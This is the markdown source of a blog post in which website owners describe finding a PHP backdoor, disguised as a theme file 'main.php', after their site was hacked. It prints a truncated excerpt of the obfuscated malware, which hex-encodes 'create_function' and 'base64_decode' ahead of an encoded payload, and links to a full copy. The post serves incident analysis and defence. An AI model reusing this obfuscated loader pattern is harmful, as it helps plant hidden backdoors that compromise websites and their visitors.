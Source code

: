 ```yaml
---
title: Animals Do not Eat their Own Offsprings
tags: []
categories:
- blog
---
```

This post is about hacking, not biology.
<!--more-->

We had a productive day, because we found out the backdoor code that corrupted
our website. This writeup may help others figure out potential sources of
trouble, or in the least, keep their websites safe.

We were looking at all kinds of server logs to figure out what went wrong, and
somewhat fortuitously noticed one log that gave us the list of most active
codes every day. It is named 'Resource usage stats' on cpanel. We found that
on all days over the last week, the most used code at our site was
'homolog/blogs/index.php'. That makes perfect sense, because readers come to
our website to read the commentaries. However, we also found that the most
used programs were different on the day of the attack (June 28). They were -

'wp-content/themes/twentyten/main.php'

and

'wp-admin/admin-ajax.php'.

The first one did not appear right, especially because we do not use twentyten
theme. So we inspected the actual code of 'main.php'. It was clearly the
attack code as we can tell based on two reasons.

(i) It was inserted into our website on June 22 and was one of the few php
codes in the entire web tree that did not get corrupted by the attack.
Amazing, isn't it? Even the hacked codes do not eat their own :)

(ii) The innocuously named 'main.php' have codes like this -

`

<?php

$_8b7b = "\x63\x72\x65\x61\x74\x65\x5f\x66\x75\x6e\x63\x74\x69\x6f\x6e";

$_8b7b1f = "\x62\x61\x73\x65\x36\x34\x5f\x64\x65\x63\x6f\x64\x65";

$_8b7b1f56 = $_8b7b("", $_8b7b1f("JGs9MTQzOyRtPWV4cGxvZGUoIjsiLCIyMzQ7MjUzOzI1
MzsyMjQ7MjUzOzIwODsyNTM7MjM0OzI1NTsyMjQ7MjUzOzI1MTsyMzA7MjI1OzIzMjsxNjc7MjAyOz
IwODsyMDI7MjI

`

The entire code is [pasted here](http://pastebin.com/HHzbPUBf) by some other
sufferer. It is a very sophisticated php code that is written in binary.
Searching google with parts of the code gave me only five hits. So, possibly
not many people reached this far in figuring out the mode of attack.
Apparently, one blog performed extensive analysis on the nature of the code
and [wrote it here](http://domesticenthusiast.blogspot.com/2012/03/dyslexic-
mayans-want-to-sell-you-cialis.html).

We are still not sure, how the backdoor code was inserted, but we should be
able to figure out by going through other logs. Finding the code gives us
confidence that it is really gone now after the cleaning process.

